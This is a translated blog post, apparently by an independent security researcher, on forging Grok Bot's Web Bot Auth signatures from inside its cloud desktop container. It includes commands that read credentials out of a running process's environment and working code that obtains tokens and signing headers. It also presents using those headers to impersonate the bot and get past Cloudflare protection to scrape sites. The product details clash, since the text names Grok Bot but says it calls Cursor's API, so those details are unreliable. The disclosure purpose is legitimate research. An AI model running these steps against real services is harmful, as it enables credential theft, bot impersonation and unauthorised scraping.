




**收录说明**：直接下载；去掉了文末的分享按钮和返回链接。作者为独立的安全研究者，文章是对 Grok Bot 云端计算机环境的分析，含代码；文中的披露时间线照录。原文全文存于本目录的 original.md，网站上不显示，已翻译。

**内容摘要**：作者分析了 Grok Bot 用来向网站证明自己身份的 Web Bot Auth 机制：该标准用 Signature 请求头验证自动化程序的身份，而不依赖 User-Agent 或 IP 白名单。作者在 Bot 的桌面环境中找到负责签名的脚本，发现启动脚本虽然从环境变量中删除了令牌，但签名进程仍持有凭证，可以从进程环境中读出，进而在 Bot 之外为任意请求生成有效的 Grok Bot 签名（有效期 90 秒），从而访问 Cloudflare 放行 Grok Bot 的网站。文章附有披露时间线。

**保留理由**：从安全角度揭示了 Grok Bot 云端计算机中凭证的存放方式，以及「智能体身份认证」这一机制的弱点，可与官方安全文档中关于凭证隔离的说法对照。

---

2026 年 10 月 7 日·作者 Kevin｜7 分钟阅读

我如何伪造 Grok Bot 的 Web Bot Auth 签名，并用它们抓取 Cloudflare 后面的网站。



几个月前的 2026 年 8 月 11 日，SpaceXAI 发布了一款名为 [Grok Bot](https://x.ai/bot) 的 AI 个人助理。根据 [Cloudflare Radar](https://radar.cloudflare.com/bots/directory/grok-bot) 以及浏览 X 的情况，它似乎相当成功。然而，在摆弄 Grok Bot 时，我注意到许多奇怪的地方。其中一件事尤其引起了我的注意。在查看 Chrome DevTools 中的请求时，我注意到三个用于对请求进行加密签名的请求头：`Signature`、`Signature-Input` 和 `Signature-Agent`。我立刻认出这是 Web Bot Auth（WBA），并想知道它是如何被注入的。

## 什么是 Web Bot Auth？[#](#what-is-web-bot-auth)

Web Bot Auth 是一项通过 `Signature` 请求头验证自动化 bot（例如 AI 智能体）身份的标准。它不依赖 `User-Agent` 或 IP 允许列表，而是要求 bot 运营者使用私钥对其请求进行加密签名，并在其域名下的 `/.well-known/http-message-signatures-directory` 发布相应的公钥（[JWK](https://www.rfc-editor.org/info/rfc7517/)）。这让网站运营者能够证明某个 bot 的身份。你可以在 Cloudflare 的 [Web Bot Auth 文档](https://developers.cloudflare.com/bots/reference/bot-verification/web-bot-auth/)及其与数据采集公司 [Browserbase](https://www.browserbase.com/blog/cloudflare-browserbase-pioneering-identity) 合作的[公告文章](https://blog.cloudflare.com/web-bot-auth/)中找到更多细节。

## 如何伪造签名[#](#how-to-forge-signatures)

在创建一个 Bot 并打开其桌面环境后，我开始四处翻找，在 `/usr/local/bin/sand-web-bot-auth.mjs` 发现了一个有趣的文件。这个文件也包含在一个可以直接从他们的 CDN [这里](https://public-asphr-vm-daemon-bucket.s3.us-east-1.amazonaws.com/sand-host-bundle/sand-host-bundle-latest.tgz)下载的包中。它似乎会调用几次 Cursor 的 API 来获取签名数据，然后通过 Chrome DevTools Protocol（[CDP](https://chromedevtools.github.io/devtools-protocol/)）把它们注入 Chrome：

```
const { response, body } = await fetchWithTimeout(
  this.fetchImpl,
  this.endpoint, // /sand-box/web-bot-auth-signature
  {
    method: "POST",
    redirect: "error",
    headers: {
      authorization: `Bearer ${token}`,
      "content-type": "application/json",
    },
    body: JSON.stringify({ url: origin }),
  },
  this.timeoutMs,
  readSigningResponseBody,
);
```

```
consideredOrigin = requestUrl.origin;
const signed = await signer.getHeaders({ origin: requestUrl.origin });
if (signed != null && isSigningCandidate()) {
  headers = mergeRequestHeaders(request.headers, signed.headers);
  signatureSource = signed.source;
}

// ...

const continuation = { requestId: params?.requestId };
if (headers != null) continuation.headers = headers;
await browser
  .send("Fetch.continueRequest", continuation, sessionId)
  .catch(() => {});
```

好，但我们怎么获得调用 API 所需的认证令牌呢？我的第一反应是运行 `printenv`。然而，它并不包含该令牌。这是因为在 `/usr/local/bin/start-exec-daemon` 中，他们会运行：

```
unset SAND_GATEWAY_TOKEN SAND_INFERENCE_RENEWAL_CREDENTIAL SAND_EGRESS_TUNNEL_BEARER
```

这会从环境中删除所需的令牌。然而，`sand-web-bot-auth.mjs` 运行仍然需要该令牌。你可以通过获取进程 ID，然后导出进程的环境变量来获得令牌：

```
ps -aux | grep sand-web-bot-auth.mjs
strings /proc/<PID>/environ | grep SAND_
```

就这样，你就有了自己的 `SAND_INFERENCE_RENEWAL_CREDENTIAL`。现在你可以用以下代码伪造你自己的 Grok Bot 签名请求头：

```
async function renewToken() {
  const renewResp = await fetch(
    new URL("/sand-box/inference-credential", baseUrl),
    {
      method: "POST",
      headers: {
        "content-type": "application/json",
      },
      body: JSON.stringify({
        credential: renewalCredential,
      }),
    },
  );

  const renewContent = await renewResp.json();
  if (!renewResp.ok || typeof renewContent?.accessToken !== "string") {
    throw new Error(`Token renewal failed: HTTP ${renewResp.status}`);
  }

  return renewContent.accessToken;
}

async function requestSigningData(accessToken, targetOrigin) {
  const sigResp = await fetch(
    new URL("/sand-box/web-bot-auth-signature", baseUrl),
    {
      method: "POST",
      headers: {
        authorization: `Bearer ${accessToken}`,
        "content-type": "application/json",
      },
      body: JSON.stringify({
        url: targetOrigin,
      }),
    },
  );

  const sigContent = await sigResp.json();

  return {
    status: sigResp.status,
    ...sigContent,
  };
}

const accessToken = await renewToken();
const signingData = await requestSigningData(accessToken, origin);
```

结果：

```
{
  "Signature":
    "sig1=:aHR0cHM6Ly93d3cueW91dHViZS5jb20vd2F0Y2g/dj1kUXc0dzlXZ1hjUSB3aHlhcmV5b3VyZWFkaW5ndGhpcw==:",
  "Signature-Input":
    'sig1=("@authority" "signature-agent");created=1789860743;expires=1789860833;keyid="Vuxu4khgzIe0b30Nd6hq2envAuVBFMTDqorSNIUb_Oo";alg="ed25519";nonce="xxxxxxxxxxxxxxxxxxxxxx";tag="web-bot-auth"',
  "Signature-Agent": '"https://cursorusercontent.com"',
}
```

尽管 API 声明 `cacheTtlSeconds: 30` 秒，该签名实际有效期为 `90` 秒。

## 为什么这是个问题？[#](#why-is-this-a-problem)

通常，当你让一个智能体请求某个页面时，它会向该智能体提供商的后端发起一次工具调用，并在发起请求的同时对其进行签名。这样你无法控制签名过程。但在这里，你控制着请求签名数据的 Docker 容器。这削弱了 Web Bot Auth 签名的真实性，因为任何人都可以为任何网站请求签名并冒充 Grok Bot。

## 如何修复？[#](#how-do-you-fix-this)

相反，Grok Bot 的后端应该对来自 Docker 容器外部的流量进行 [MITM](https://en.wikipedia.org/wiki/Man-in-the-middle_attack)（中间人）处理。这样用户就无法控制签名过程。这还有一个好处：可以给来自终端的 `curl` 流量签名，而不仅是 Chrome。更临时的修复方式可以是把能调用签名端点的 IP 限制为 Grok Bot 运行的 AWS IP 范围。

无关但值得一提，如果你翻看这个 Docker 容器，你会开始注意到，作为网站运营者，有很多方法可以检测出 Grok Bot。例如，他们对浏览器环境的补丁打得不够，这往往在遇到 **managed**（托管式）Cloudflare 挑战时导致无限循环。

## 这有什么用？[#](#how-is-this-useful)

一些网站可能会把 Grok Bot 加入允许列表，但我认为这不太可能。那样的话，你也许能绕过它们的 WAF，例如 Cloudflare（5 秒挑战）。然而，从 2026 年 9 月 15 日起，**[Cloudflare 将默认允许 AI 爬虫](https://blog.cloudflare.com/accountable-mixed-use-ai-crawlers/)**。你可以使用冒充的签名请求头来抓取网站，并在假装是 Grok Bot 的同时绕过 Cloudflare。我相信这会影响大多数受 Cloudflare 保护的网站，因为默认设置很强大，而且不太可能被更改。不过，它不会影响那些明确要求托管式挑战（例如通过安全规则）或[禁止智能体](https://developers.cloudflare.com/bots/additional-configurations/block-ai-bots/)的网站。

下面是一个实际演示。左侧，通过一个可疑 IP 访问某个网站，被 Cloudflare 拦截（`Just a moment...`）。右侧，使用同一个可疑 IP 访问同一个网站，但带上了伪造的 Grok Bot Web Bot Auth 签名请求头，结果成功。



演示图片，显示用 WBA 绕过了 Cloudflare。

## 披露时间线[#](#disclosure-timeline)

- *2026 年 9 月 23 日*：该问题及本文的粗略草稿在附有截止期限的情况下披露给 X AI，并得到了确认。
- 🦗
- *2026 年 10 月 7 日*：本文发布。

## 结论[#](#conclusion)

我目前正在寻找就业机会，如果你需要具备 Web 逆向工程技能、构建抓取管道或后端开发能力的人，欢迎联系我。请通过下方页脚的电子邮件与我联系。
